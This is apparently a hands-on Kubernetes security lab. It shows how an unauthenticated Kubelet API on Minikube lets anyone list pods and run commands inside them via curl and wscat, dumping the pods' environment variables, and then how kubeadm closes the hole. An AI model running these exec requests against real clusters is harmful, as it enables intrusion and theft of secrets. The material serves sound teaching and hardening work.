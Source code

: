 ### Attack the Kubelet API
The Kubelet API is responsible for the master to node communication within a Kubernetes cluster. If you expose your nodes to the internet without some important configurations in place you are going to have a bad time. From the official Kubernetes docs:
"By default, requests to the Kubelet’s HTTPS endpoint that are not rejected by other configured authentication methods are treated as anonymous requests, and given a username of system:anonymous and a group of system:unauthenticated."

So let's exploit this "misconfiguration" within Minikube.

## Task 1: Spin up a default Kubernetes cluster

1. Start Minikube using the default localkube bootstrapper:
```
export MINIKUBE_HOME=~/Desktop/lab-tools/.kube
minikube delete
minikube start
```

2. The Kubelet API runs on every node in a cluster. If an individual has network access to a node in the kubernetes cluster, they are able to do some interesting things by default, including "exec-ing" into running pods. 
```
# port 10250 is the read/write port that the Kubelet API uses for communication to the master node
minikube ip
curl --insecure https://<minikubeIP>:10250/pods | jq
# jq is a tool to prettify JSON output - it is optional 
```

3. As you can see, using a default implementation of Minikube (and many other kubernetes production bootstrappers) we are able to list all of the pods running on a given node with a simple `curl` command. This seems bad, right? Let's try to Exec and do some real damage. First, we launch some victim pods to take over. In the `manifests` directory, run the following command:
```
kubectl create -f .
kubectl get pods
```

4. Now we have our unshorten-api Deployment and Service up and running we can extract details from them using the same `curl` command we used before:
```
curl --insecure https://<minikubeIP>:10250/pods | jq
```

5. In the `metadata` field of the JSON output for our Pod you will find the pod name (remember, this curl command is NOT authenticated. An attacker can see this info without the proper settings in place!). The value will look something like `"name": "link-unshorten-8746d649b-7k8w2",`

6. Now, we take that Pod name and run another curl command. Reading Pod data is interesting but we want to do some damage:
```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.99.100:10250/exec/default/link-unshorten-8746d649b-7k8w2/unshorten-api-container?command=env&input=1&output=1&tty=1"
```

7. This opens a stream which we can access using [wscat](https://www.npmjs.com/package/wscat). Take note of the `location:` header as we will be using that value to read from the stream. You can install `wscat` using the link above. Once `wscat` is installed, run the following command:
```
wscat -c "https://<minikubeIP>:10250/cri/exec/<valueFrom302>" --no-check
```

8. These are *all of the environment variables* for our unshorten-api pod, printed to the screen, unauthenticated. 

See any issues here?

## Task 2: Fix the Issue
There are a number of way to address the kubelet-api "misconfiguration" issue. To do this locally, our most simple solution is to bootstrap our cluster using the `kubeadm` bootstrapper. Out of the box, Minikube still uses `localkube` to build clusters. `localkube` runs every cluster component as a single binary in the Kubernetes environment. This project is in the process of being deprecated in favor of `kubeadm` which offers us a much more robust solution that matches production clusters more closely.
```
minikube delete
minikube start --bootstrapper kubeadm
```

1. Run our `curl` command from before. We see that the response is `Forbidden` which is due to how `kubeadm` bootstraps clusters. `kubeadm` implements authorization of the kubelet by default. Let's take a look at this setting under the hood:
```
curl --insecure https://192.168.99.100:10250/pods
```

2. SSH into our Minikube node and take a look at our kubelet config:
```
minikube ssh
sudo cat /etc/kubernetes/kubelet.conf
```

3. You will see that our config defines a set of certificates which successfully enables authentication between the Master and Nodes. 

### Note: `kubeadm` does this by default but this is not always the case for other bootstrap mechanisms or scratch-built clusters! Always manually check that this configuration is enforced!

### Discussion Question: Is your kubelet api configured to block these attacks?
